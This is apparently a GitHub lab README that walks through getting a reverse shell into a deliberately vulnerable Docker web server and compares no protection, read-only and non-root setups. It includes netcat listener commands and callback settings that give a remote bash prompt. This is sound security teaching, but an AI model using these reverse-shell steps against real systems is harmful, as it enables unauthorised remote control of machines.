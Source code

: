 # README

Demonstrates getting access into a container using a reverse shell.  

📝 TODO:

* Is it possible to escape the read-only and run tools in the package lists?  

## Purpose

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using a reverse shell, can be initiated by the victim's machine.  

This technique is commonly used in various cybersecurity attacks and penetration testing scenarios where the attacker wants to bypass firewall restrictions. Traditional shell access might be blocked by the victim's firewall, but in many cases, outgoing connections (as would be initiated by a reverse shell) are allowed.  

In a reverse shell scenario, the victim machine, once compromised, will reach out and connect to the attacker’s machine. Once that connection is established, the attacker can execute commands on the victim machine, thereby taking control over it.  

## Protection

*Least Privileges Principle*: Only give the minimum necessary permissions to your containers. For instance, avoid running containers as root whenever possible. This will limit what an attacker can do even if they manage to compromise a container.  

*Firewall and Network Policies*: Implement strong network policies to control the traffic going in and out of your containers. An egress filtering firewall will help prevent a reverse shell from reaching back to an attacker. You can also make use of network policies in Kubernetes.  

*Container Scanning*: Use container scanning tools to identify any known vulnerabilities in your containers. Regularly update and patch your container images to eliminate these vulnerabilities.  

*Use Trusted Images*: Only use container images from trusted sources. This helps to ensure that you are not inadvertently including malicious software in your containers.  

*Implement a WAF (Web Application Firewall)*: This can protect your application by filtering and monitoring HTTP traffic between a web application and the Internet.  

*Runtime Security*: Implement a runtime security model. This can help to detect and prevent malicious activity during the operation of a container.  

*Regular Auditing and Monitoring*: Regularly audit and monitor your container's activities. Any abnormal activity could be a sign of an intrusion.  

*Intrusion Detection System (IDS)*: IDS can monitor network traffic and system logs for suspicious activities.  

## Configure

Find your local machine IP address.  

```sh
#MacOS
LOCAL_IP=$(ifconfig en0 inet | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | head -n 1)  
echo ${LOCAL_IP}
```

## No Protection

No protection means that once connected to the container you can install software because the container has privileges.  

### Terminal Shell 1

Run the stupid webserver and configure to callback to a server.  

```sh
docker build --target no_protection -t reverseshell . 

# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Terminal Shell 2

Run the callback service in a seperate shell. This is the service that we connect back to from the container.  

```sh
nc -l 8888 -vvv 
```

### Terminal Shell 3

Invoke the exploit against the web server and then check terminal 2.  

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# Try and install something.
apt install curl

# Exiting will kill the container process
exit
```

## Readonly

### Shell 1

Run the container with `--read-only` preventing write to disk.  

```sh
docker build --target no_protection -t reverseshell .

# Make sure that LOCAL_IP is set
docker run --read-only --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell  

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server  

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Nonroot

Using a non-root user in the container to reduce privilege levels.  

### Shell 1

Build and run a non-root user image.  

```sh
docker build --target non_root -t reverseshell .

# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# You're webuser now.
whoami
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Troubleshooting  

Test with a simple webservice  

```sh
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell

echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1

curl localhost:8080
```

## Resources
